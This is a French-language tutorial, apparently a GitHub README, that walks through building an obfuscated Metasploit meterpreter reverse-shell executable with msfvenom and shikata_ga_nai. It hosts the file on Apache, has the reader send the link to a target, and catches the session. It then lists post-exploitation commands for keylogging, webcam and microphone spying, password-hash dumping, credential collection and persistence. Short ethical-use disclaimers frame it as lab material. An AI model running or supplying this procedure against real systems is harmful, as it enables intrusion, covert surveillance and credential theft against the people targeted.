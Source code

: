 ## Prérequis : 
**Windows xp : https://archive.org/details/WinXPSP2HomeEditionFrench**  
**Kali Linux : https://www.kali.org/get-kali/#kali-platforms**  
**VMware ou virtualBox**  

### Étape 1 : **Afficher les exploits disponibles dans Metasploit**
1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Afficher la liste des exploits disponibles** :
   ```bash
   show exploits
   ```
   - Parcourez la liste et choisissez l'exploit souhaité. Pour un simple handler pour reverse shell, on utilise `exploit/multi/handler`.

### Étape 2 : **Créer le payload encodé avec `shikata_ga_nai`**
1. **Afficher les payloads disponibles avec `msfvenom`** :
   ```bash
   msfvenom --list payloads
   ```
   - Choisissez le payload approprié, par exemple `windows/meterpreter/reverse_tcp`.

2. **Créer le payload avec encodage** :
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=<votre_port> -e x86/shikata_ga_nai -i 5 -f exe > payload_encoded.exe
   ```
   - **Explication des options** :
     - `-p windows/meterpreter/reverse_tcp` : Payload pour un reverse shell Meterpreter.
     - `LHOST` : Adresse IP de votre machine attaquante.
     - `LPORT` : Port d'écoute sur votre machine.
     - `-e x86/shikata_ga_nai` : Utilisation de l'encodeur `shikata_ga_nai`.
     - `-i 5` : Nombre d'itérations d'encodage pour augmenter l'obfuscation.
     - `-f exe` : Format du fichier de sortie.

### Étape 3 : **Configurer le listener dans Metasploit**
1. **Sélectionner l'exploit `multi/handler`** :
   ```bash
   use exploit/multi/handler
   ```

2. **Afficher les options disponibles pour l'exploit** :
   ```bash
   show options
   ```

3. **Configurer les options du payload** :
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST <votre_IP>
   set LPORT <votre_port>
   show options
   ```
   - Vérifiez que toutes les options sont correctement configurées.

4. **Lancer l'exploit** :
   ```bash
   exploit
   ```

### Étape 4 : **Partager le payload via un serveur web**
1. **Copier le payload dans le répertoire du serveur web** :
   ```bash
   cp payload_encoded.exe /var/www/html/
   ```

2. **Vérifier le statut du serveur Apache** :
   ```bash
   service apache2 status
   ```
   - Si le serveur n'est pas démarré, utilisez :
     ```bash
     service apache2 start
     ```

3. **Vérifier l'accès au payload** :
   Accédez au lien suivant depuis un navigateur ou utilisez `curl` :
   ```bash
   curl http://<votre_IP>/payload_encoded.exe
   ```

### Étape 5 : **Partager le lien de téléchargement**
Envoyez le lien à la cible pour télécharger le payload :
```text
http://<votre_IP>/payload_encoded.exe
```

### Étape 6 : **Attendre l'exécution et capturer la session Meterpreter**
Une fois que le payload est exécuté sur la machine cible, la session `meterpreter` sera automatiquement ouverte dans Metasploit, permettant l'interaction avec la cible.

### **Note Importante** :
Cette procédure est réservée aux tests de pénétration éthiques et autorisés sur des systèmes pour lesquels vous avez obtenu la permission. Toute utilisation non autorisée est illégale et contraire à l'éthique.






Une fois que le payload a été installé et que la session `meterpreter` est ouverte sur la machine cible, voici une liste des commandes que vous pouvez utiliser dans Metasploit pour interagir avec la session :

### Commandes de base `meterpreter`
1. **`help`** : Affiche toutes les commandes disponibles.
2. **`sysinfo`** : Affiche les informations système de la machine cible.
3. **`getuid`** : Affiche l'utilisateur actuellement utilisé sur la machine cible.
4. **`getpid`** : Affiche le PID (Process ID) du processus `meterpreter`.
5. **`ps`** : Liste les processus en cours sur la machine cible.
6. **`shell`** : Ouvre un shell Windows sur la machine cible.
7. **`exit`** : Ferme la session `meterpreter`.

### Commandes de gestion de fichiers
1. **`ls`** : Liste les fichiers et dossiers du répertoire courant.
2. **`cd <chemin>`** : Change de répertoire.
3. **`pwd`** : Affiche le répertoire courant.
4. **`download <fichier>`** : Télécharge un fichier de la machine cible vers la machine attaquante.
5. **`upload <fichier>`** : Envoie un fichier de la machine attaquante vers la machine cible.
6. **`rm <fichier>`** : Supprime un fichier sur la machine cible.
7. **`mkdir <dossier>`** : Crée un nouveau dossier sur la machine cible.

### Commandes de gestion de processus
1. **`kill <PID>`** : Tue un processus spécifique sur la machine cible.
2. **`migrate <PID>`** : Migre le `meterpreter` vers un autre processus (utile pour la persistance).

### Commandes de contrôle de session
1. **`background`** : Met la session `meterpreter` en arrière-plan.
2. **`sessions`** : Liste toutes les sessions actives.
3. **`sessions -i <ID>`** : Interagit avec une session spécifique.

### Commandes réseau
1. **`portfwd add -l <port_local> -p <port_distant> -r <IP_cible>`** : Ajoute un port forwarding.
2. **`ifconfig`** : Affiche les interfaces réseau de la machine cible.
3. **`route`** : Gère et affiche les routes sur la machine cible.
4. **`arp`** : Affiche la table ARP de la machine cible.

### Commandes de capture et de surveillance
1. **`screenshot`** : Prend une capture d'écran de la machine cible.
2. **`webcam_list`** : Liste les webcams disponibles sur la machine cible.
3. **`webcam_snap`** : Prend une photo avec la webcam.
4. **`record_mic`** : Enregistre le micro pendant une durée définie.
5. **`keyscan_start`** : Démarre l'enregistrement des frappes de touches (keylogging).
6. **`keyscan_dump`** : Affiche les frappes enregistrées.
7. **`keyscan_stop`** : Arrête l'enregistrement des frappes.

### Commandes de persistance et d'exploitation avancée
1. **`run persistence -h`** : Affiche les options pour configurer la persistance sur la machine cible.
2. **`run getsystem`** : Tente de passer en tant qu'utilisateur `SYSTEM`.
3. **`hashdump`** : Extrait les hachages de mots de passe (nécessite des privilèges élevés).
4. **`run post/windows/gather/credentials/credentials_collector`** : Collecte les informations d'identification de la machine cible.

### Commandes de gestion de l'écran et de la webcam
1. **`webcam_stream`** : Diffuse un flux vidéo en direct de la webcam de la cible.
2. **`screenshare`** : Partage l'écran en temps réel.

### **Conseil de Sécurité**
Ces commandes doivent être utilisées dans le cadre de tests de pénétration éthiques, et uniquement avec l'autorisation explicite des propriétaires des systèmes ciblés. Toute utilisation non autorisée de ces techniques est illégale et contraire à l'éthique.
